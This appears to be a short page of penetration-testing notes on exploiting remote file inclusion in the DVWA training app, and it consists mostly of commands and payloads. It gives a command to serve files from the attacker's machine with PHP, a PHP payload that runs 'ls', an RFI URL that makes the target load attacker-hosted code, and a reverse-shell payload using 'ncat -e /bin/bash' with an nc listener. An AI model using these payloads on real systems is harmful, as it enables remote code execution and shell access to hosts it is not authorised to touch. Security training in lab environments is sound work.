 

* Remote File inclusion&#x20;

make Simple server

```php
php -S <IP>:<PORT>
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

make simple code php to test  shell.txt

```php
<?php
system('ls');
?>
```



**`http://192.168.1.9:4444/shell2.txt? add ? to execute file in victm machine`**

```
http://192.168.2.5/dvwa/vulnerabilities/fi/?page=http://192.168.1.9:4444/shell2.txt?
```

### How to get reverse shell on LFI/RFI

make shell.txt

```php
<?php
system('ncat -e /bin/bash <attacker ip> <port>');
?>
```

```
?page=http://192.168.2.3/shell2.txt?
```



attacker Machine first listening......

```
nc -nvlp <port>
```

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
